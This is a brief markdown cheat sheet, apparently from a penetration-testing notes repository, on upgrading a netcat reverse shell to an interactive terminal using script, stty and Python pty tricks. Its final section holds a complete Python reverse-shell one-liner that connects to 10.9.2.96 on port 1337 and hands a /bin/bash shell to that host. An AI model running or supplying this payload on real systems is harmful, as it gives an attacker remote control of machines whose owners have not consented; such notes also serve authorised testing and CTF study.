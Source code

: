 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
export TERM=xterm
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjM1MjQ1MjMyLDE0NjE3NDQwNiwxOTM4Mj
ExODQ2LC0xNDI1MTQwOTcsMTkxMzU5MjE5MV19
-->